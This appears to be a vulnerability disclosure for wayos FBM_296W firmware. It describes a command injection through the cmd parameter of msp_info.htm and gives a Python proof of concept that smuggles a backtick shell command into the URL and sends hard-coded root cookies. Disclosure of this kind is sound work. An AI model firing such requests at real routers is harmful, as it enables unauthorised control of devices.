



# wayos
# FBM_296W-18.09.21V Command Injection

# Firmware information
Firmware download address:https://drive.weixin.qq.com/s?k=ANgAJAcRAAc0HnVp1p

# Description:
A vulnerability was discovered in  FBM_296W-18.09.21V, which has been classified as critical. This issue affects the msp_info_htm function in the msp_info.htm file. Manipulation of the cmd parameter can lead to command injection.

# Analyse:


The a1 is the incoming value.First, check whether the incoming value contains 'flag'.If it is included, continue to check whether the flag variable is equal to 'cmd'.If so, call the httpd_get_parm function to obtain the address of the cmd parameter content.After this function is executed, if the returned value is not null or the address it points to is not '\0' (representing the end identifier of the string), V10 will be concatenated to V21.Then V21 is used as a parameter of the system function.

# poe







```
import requests

burp0_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=`echo%20aaa>longlong.txt`"
burp0_cookies = {"userid": "root", "gw_userid": "root,gw_passwd=70793897268FA8975B4286AAF4608282"}
burp0_headers = {"Accept": "application/json, text/javascript, */*", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Referer": "http://192.168.0.1/index.htm?_1420043663", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
```


